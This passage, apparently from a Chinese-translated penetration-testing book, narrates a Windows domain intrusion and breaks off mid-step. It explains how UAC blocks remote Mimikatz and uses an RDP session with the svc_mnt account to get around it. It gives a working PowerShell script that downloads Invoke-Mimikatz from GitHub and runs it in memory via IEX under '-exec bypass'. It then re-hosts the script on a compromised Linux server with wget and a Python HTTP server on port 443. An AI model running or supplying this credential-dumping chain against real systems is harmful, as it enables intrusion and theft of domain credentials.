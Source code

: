 ![svc\_mnt&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.3-1.jpg)

`提示：！在bash中有特殊含义，需转义，尤其是放在数字前时。因此，此处密码字段为\！。`

仅有几台服务器存在**svc\_mnt**账号，这个结果可不太妙。此外，由于用户访问控制 （UAC），我们无法远程执行 Mimikatz.

UAC 是 Windows vista 中引入的一个功能，在执行特权操作\(软件安装等\)之前，会弹出一个对话框来提示用户。因此，即使管理员也不能在系统上远程执行特权命令。但默认的管理员帐户在默认状况下不受UAC的约束\[69\]，这就是为什么它以前没有给我们带来太多麻烦的原因。

幸运的是，其中一台存在**svc\_mnt**账号的主机10.10.20.118似乎开放了RDP 端口 （3389）。如果我们能在远程服务器上打开图形交互会话，那么 UAC 就不是问题了！

我们在Front Gun 服务器上启动 **rdesktop**（或 **mstsc**），用**svc\_mnt**帐户登录。

![&#x8FDC;&#x7A0B;&#x684C;&#x9762;&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.3-2.jpg)

然后，我们编写一个小脚本，下载一个powershell版的Mimikatz，只在内存中通过IEX\(Invoke-Expression\)命令运行。

```text
$browser = New-Object System.Net.WebClient

$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredential

IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"))

Invoke-Mimikatz
```

我们打开具有管理权限的命令提示符（右键单击&gt;以管理员身份运行），然后执行脚本:

```text
10.10.20.118 > powershell -exec bypass .\letmein.ps1
```

耐心地等待几秒钟，但**DowanloadString**函数执行超时了，看起来 10.10.20.0/24 网段的主机无法访问互联网—至少在没有通过需要有效域凭据的代理的情况下不能访问互联网，而我们还没有……

为了绕过这个限制，我们直接在之前拿下的 Linux 服务器下载**Invoke-Mimikatz.ps1**文件，并启动一个简单的 HTTP 服务使其可被访问:

```text
Career# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1
Career# python -m SimpleHTTPServer 443
```

我们修改 PowerShell 脚本中的 URL，再执行一次:
